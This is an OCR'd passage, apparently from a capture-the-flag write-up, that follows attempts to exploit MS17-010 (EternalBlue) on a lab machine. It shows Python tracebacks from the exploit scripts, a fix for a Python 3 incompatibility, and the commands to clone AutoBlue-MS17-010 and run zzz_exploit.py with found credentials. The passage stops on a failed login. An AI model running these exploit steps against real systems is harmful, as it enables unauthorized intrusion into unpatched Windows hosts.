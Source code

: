 req1 = conn.create\_nt\_trans\_packet(5, param=pack('\<HH', fid, 0), mid=mid, data='A'\*0x10d0, maxParameterCount=GROOM\_TRANS\_SIZE-0x10d0-TRANS\_NAME\_LEN)

^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

File "/home/kali/Desktop/Relevant/42315/mysmb.py", line 349, in create\_nt\_trans\_packet

\_put\_trans\_data(transCmd, param, data, noPad)

File "/home/kali/Desktop/Relevant/42315/mysmb.py", line 73, in \_put\_trans\_data

transData = ('\x00' \* padLen) + parameters

\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~\~^\~\~\~\~\~\~\~\~\~\~\~

TypeError: can only concatenate str (not "bytes") to str

* Error is due to[ Python 3 cannot concatenate bytes and strings, so use python2 and it should work](https://github.com/worawit/MS17-010/issues/48).
* [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) supports Python 3.
* Clone Git repository.

git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git

* Install any requirements.

cd AutoBlue-MS17-010

pip install -r requirements.txt

* Run "zzz\_exploit.py" using credentials identified in "passwords.txt".

python zzz\_exploit.py username:'password'@TARGET\_IP

* Script errors out due as "The attempted logon is invalid. This is either due to a bad username or authentication information".

Traceback (most recent call last):

File "/home/kali/Desktop/Relevant/AutoBlue-MS17-010/zzz\_exploit.py", line 1112, in \<module>

main()

File "/home/kali/Desktop/Relevant/AutoBlue-MS17-010/zzz\_exploit.py", line 1109, in main

exploit(options.target\_ip, int(options.port), username, password, options.pipe, options.share, options.mode)

File "/home/kali/Desktop/Relevant/AutoBlue-MS17-010/zzz\_exploit.py", line 942, in exploit

conn.login(username, password, maxBufferSize=4356)

File "/home/kali/Desktop/Relevant/AutoBlue-MS17-010/mysmb.py", line 188, in login

smb.SMB.login(self, user, password, domain, lmhash, nthash)

File "/usr/local/lib/python3.11/dist-packages/impacket/smb.py", line 3512, in login

self.login\_standard(user, password, domain, lmhash, nthash)

File "/home/kali/Desktop/Relevant/AutoBlue-MS17-010/mysmb.py", line 192, in login\_standard

smb.SMB.login\_standard(self, user, password, domain, lmhash, nthash)
